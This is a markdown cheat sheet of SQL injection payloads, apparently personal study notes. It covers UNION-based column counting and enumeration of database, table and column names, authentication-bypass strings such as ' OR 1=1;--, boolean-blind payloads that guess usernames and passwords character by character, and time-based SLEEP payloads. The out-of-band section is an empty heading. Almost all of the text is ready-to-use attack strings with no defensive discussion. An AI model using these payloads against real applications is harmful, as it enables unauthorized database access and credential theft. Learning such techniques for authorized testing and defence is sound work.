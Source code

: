 # SQLi

## Mapping in-band sqli

e.g. id=1 -> id=1' id=1" gets SQL error

```
1 UNION SELECT 1

1 UNION SELECT 1,2

1 UNION SELECT 1,2,3
```

repeat process until there is no longer an error

Retrieve database name

```
0 UNION SELECT 1,2,database()
```

Get tables

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = <db_name>
```

Get table structure

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = <table_name>
```


```
0 UNION SELECT 1,2,group_concat(col1,':',col2 SEPARATOR '<br>') FROM table_name
```

## Authentication Bypass

' OR 1=1;--
' or 1=1 -- -

### When application anticipates only 1 row to be returned
' or 1=1 LIMIT 1; --

## Mapping Boolean Blind SQLi

In the context of checking if a username is taken in a signup form

e.g. admin123 user is not taken (false) we try to find true values

```
admin123' UNION SELECT 1;-- (false)

admin123' UNION SELECT 1,2,3;-- (true)

admin123' UNION SELECT 1,2,3 where database() like '%';-- (true)
```

# Iterate through characters to find database name

admin123' UNION SELECT 1,2,3 where database() like 'a%';-- (false)

admin123' UNION SELECT 1,2,3 where database() like 'b%';-- (true)

admin123' UNION SELECT 1,2,3 where database() like 'ba%';-- (true) 

# Iterate through to find table names

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'bad' and table_name like 'a%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'bad' and table_name='users';--

# Then columns

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bad' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bad' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

# enumerate usernames

admin123' UNION SELECT 1,2,3 from users where username like 'a%

# then passwords
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

Mapping time-based blind sqli
----------------------------
Same as above but true|false is reflected in response times by successfully executing added sleep() function

admin123' UNION SELECT SLEEP(5);--

admin123' UNION SELECT SLEEP(5),2;--

referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

Out-of-band SQLi
----------------


















 




